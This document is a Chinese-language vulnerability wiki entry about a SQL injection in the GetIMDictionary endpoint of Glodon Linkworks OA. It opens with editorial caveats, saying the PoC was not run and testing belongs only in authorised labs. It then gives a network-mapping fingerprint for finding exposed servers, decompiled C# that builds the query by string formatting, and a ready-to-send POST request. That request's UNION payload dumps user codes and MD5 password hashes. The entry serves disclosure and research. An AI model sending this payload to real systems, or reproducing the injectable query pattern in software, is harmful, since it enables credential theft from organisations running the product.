


# 广联达Linkworks OA GetIMDictionary key SQL 注入

## 条目说明

- 对象与具体问题：广联达Linkworks OA；GetIMDictionary key SQLi
- 版本、配置及部署条件：无版本
- 认证与权限前提：方法未见鉴权，全链未核
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 源码StringBuilder拼接清楚，可作根因主文
- 产品明确OA，ERP分类建议改OA/协同
- 请求直接读取密码hash，应说明敏感及不能直接当明文登录
- 缺修复build，测绘web.body需标对应引擎

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

广联达 Linkworks办公OA GetIMDictionary接口存在SQL注入漏洞，发送请求包后可以获取数据库中的敏感信息

### 漏洞影响

广联达 Linkworks

### 网络测绘

```
web.body="/Services/Identification/"
```

### 漏洞复现

登陆页面


```
// GTP.IM.Services.Config.WebSite.WebService.IM.Config.ConfigService
// Token: 0x06000018 RID: 24 RVA: 0x00004148 File Offset: 0x00002348
[WebMethod(Description = "得到IM系统配置")]
public string GetIMDictionary(string key)
{
	string str = string.Empty;
	ISysConfigService service = ServiceFactory.GetService<ISysConfigService>();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.AppendFormat("select F_VALUE from T_IM_DICTIONARY where f_key='{0}';", key);
	DataSet dataSet = GSqlDataAccess.SelectDataSet(service.DataSourceName, stringBuilder.ToString(), new DataParameter[0]);
	if (dataSet != null && dataSet.Tables.Count > 0 && dataSet.Tables[0] != null)
	{
		foreach (object obj in dataSet.Tables[0].Rows)
		{
			DataRow dataRow = (DataRow)obj;
			str = dataRow["F_VALUE"].ToString();
		}
	}
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.Append("<?xml version=\"1.0\" encoding=\"utf-8\"?>");
	stringBuilder2.Append("<result  value=\"" + str + "\" >");
	stringBuilder2.Append("</result>");
	return stringBuilder2.ToString();
}
```



验证POC

```http
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
